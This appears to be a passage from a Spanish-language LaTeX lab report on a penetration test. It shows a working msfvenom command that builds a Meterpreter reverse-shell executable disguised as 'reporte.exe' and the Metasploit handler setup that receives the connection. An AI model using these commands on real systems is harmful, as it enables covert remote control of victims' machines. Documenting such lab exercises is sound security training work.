 \begin{itemize}
    \item \textbf{msfvenom}: para la creación del payload malicioso.
    \item \textbf{msfconsole}: para la gestión del handler y recepción de la conexión remota.
    \item \textbf{Meterpreter}: para la interacción y control del sistema comprometido.
\end{itemize}

\subsection{Procedimiento}

El procedimiento del ataque se desarrolló en varias etapas claramente definidas.

\paragraph{Generación del payload}

En primer lugar, se generó un archivo ejecutable malicioso diseñado para establecer una conexión inversa hacia la máquina atacante.  
Este payload fue configurado con la dirección IP y el puerto del equipo atacante:

\begin{lstlisting}[caption={Generación del payload malicioso}]
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.115 LPORT=4444 -f exe -o reporte.exe
\end{lstlisting}

El archivo generado (\texttt{reporte.exe}) simula un archivo legítimo para inducir a la ejecución por parte del usuario objetivo.

\paragraph{Configuración del handler}

Posteriormente, se inició la consola de Metasploit y se configuró un \textit{handler} para recibir la conexión entrante desde la máquina víctima:

\begin{lstlisting}[caption={Configuración del handler en Metasploit}]
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.0.115
set LPORT 4444
run
\end{lstlisting}

